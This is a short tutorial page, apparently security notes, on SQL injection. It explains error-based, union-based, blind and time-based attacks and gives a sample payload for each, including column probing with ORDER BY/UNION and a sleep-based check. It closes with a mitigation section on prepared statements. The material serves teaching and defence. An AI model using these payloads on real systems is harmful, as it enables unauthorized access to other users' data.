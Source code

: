 ```yaml
---
description: All kinds and forms of SQLi for discussion and questioning
---
```


# SQL Injection (SQLi)

SQL Injection is a form of database attack to query/modify data from the database. Attackers can obtain results that may belong to other users. SQLi can be extended to compromise backend server or cause denial of service.



{% embed url="https://portswigger.net/web-security/sql-injection" %}
Fantastic Explanation By PortSwigger
{% endembed %}



### Attack Types

* Error Based

Cannot see query output but can see errors, make use of errors to formulate exploit

```bash
(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))
```

* Union Based

Commonly using Order By / Group By with Union

```bash
1' ORDER BY 1--+    #True
1' ORDER BY 2--+    #True
1' ORDER BY 3--+    #True
1' ORDER BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
1' GROUP BY 1--+    #True
1' GROUP BY 2--+    #True
1' GROUP BY 3--+    #True
1' GROUP BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
1' UNION SELECT null-- - Not working
1' UNION SELECT null,null-- - Not working
1' UNION SELECT null,null,null-- - Worked
```

* Blind Based

No output or errors but contents on webpage may differ depending if query is **true or false**

```basic
?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables = 'A'
```

* Timed Based

Test if query response takes longer than normal to load the content

```bash
1 and (select sleep(10) from users where SUBSTR(table_name,1,1) = 'A')#
```



### Mitigation

#### Parameterized Query

By using a prepared statement rather than concatenation of strings, SQLi will be greatly reduced to prevent possible attacks from untrusted user input

```basic
PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?");
statement.setString(1, input);
ResultSet resultSet = statement.executeQuery();
```

A step further in using prepared statement would be to use stored procedures that hold fully prepared statements within the database to query itself without the need of user input
